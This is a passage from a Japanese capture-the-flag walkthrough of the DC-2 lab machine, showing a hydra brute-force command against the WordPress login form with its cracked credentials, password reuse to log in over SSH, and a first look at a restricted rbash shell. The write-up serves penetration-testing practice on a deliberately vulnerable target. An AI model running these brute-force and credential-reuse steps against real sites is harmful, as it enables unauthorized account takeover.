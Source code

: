 16. WordPress の認証を解読する(hydra)

ユーザーファイルをパスワードの辞書ファイルが出来たので[Hydra]()を用いてオンラインでのパスワードクラックを行う

```sh
parrot01$ hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

> login: jerry password: adipiscing
> login: tom password: parturient
```

- hydra
- L ユーザー名のリストファイル
- P パスワードファイル
- dc2 (ホストアドレス)
- http-form-post /wp-login.php (wp-login.php ページに Post する)
  - log=^USER^ (form の log の value に users.txt を適応)
  - pwd=^PASS^ (form の pwd の value に cewl.txt を適応)
  - wp-submit=Log In (form の wp-submit の value に' Log In' を代入)
  - testcookie=1:S=Location (testcookie に 1:S=Location を適応)


### 17. WordPress のダッシュボードにアクセスする

ブラウザ を使い jerry や tom としてログインして調査する

```sh
parrot01$ firefox $URL/wp-admin/
```

### 18. SSH アクセスする

nmap で ssh が 7744 ポートで稼働していたことを確認したので，ssh login を試みる。
wordpress の user/password と OS の user/password は別物であるが，パスワードの使い回しを試みる

```sh
# tom でログインできた
parrot01$ ssh  tom@$IP -p 7744
> password: parturient
```

### 19 tom ユーザーで実行できるコマンドを調べる

tom ユーザのシェルは rbash なので機能制限がかかっているので使えるコマンドは
./usr/bin ディレクトリの less, ls, scp, less のシンボリックリンクのみ

```sh
# ディレクトリの一覧
tom@DC-2:~$ ls -R .

> .:
> flag3.txt  usr
>
> ./usr:
> bin
>
> ./usr/bin:
> less  ls  scp  vi
```
